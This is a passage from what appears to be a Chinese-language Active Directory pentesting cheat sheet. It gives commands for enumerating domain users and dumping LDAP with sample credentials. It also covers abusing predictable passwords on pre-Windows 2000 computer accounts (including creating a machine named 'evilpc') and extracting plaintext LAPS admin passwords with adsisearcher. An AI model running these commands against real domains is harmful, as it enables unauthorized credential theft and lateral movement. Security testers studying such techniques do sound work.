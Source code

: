 ```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

或者转储AD域并`grep`内容。

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```

## 预创建计算机账户的密码

当勾选`将此计算机账户指定为预Windows 2000计算机`复选框时，计算机账户的密码将与计算机账户的小写形式相同。例如，计算机账户**SERVERDEMO$**的密码将是**serverdemo**。 

```ps1
# 使用默认密码创建机器
# 必须从加入域的设备运行，并连接到域
djoin /PROVISION /DOMAIN <fqdn> /MACHINE evilpc /SAVEFILE C:\temp\evilpc.txt /DEFPWD /PRINTBLOB /NETBIOS evilpc
```

* 当您尝试使用凭据登录时，您应该会收到以下错误代码：`STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`。
* 然后您需要使用[rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304)更改密码。

## 读取LAPS密码

> 使用LAPS自动管理加入域的计算机上的本地管理员密码，以便每个受管计算机上的密码是唯一的，随机生成的，并安全地存储在Active Directory基础设施中。 

### 确定LAPS是否安装

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

### 提取LAPS密码

> “ms-mcs-AdmPwd”是一个“机密”的计算机属性，用于存储明文LAPS密码。默认情况下，机密属性只能由域管理员查看，与其他属性不同，它不可供经过身份验证的用户访问

 - 从Windows：

   * adsisearcher（Windows 8+上的本机二进制文件）

     ```powershell
     ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
     ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
     ```
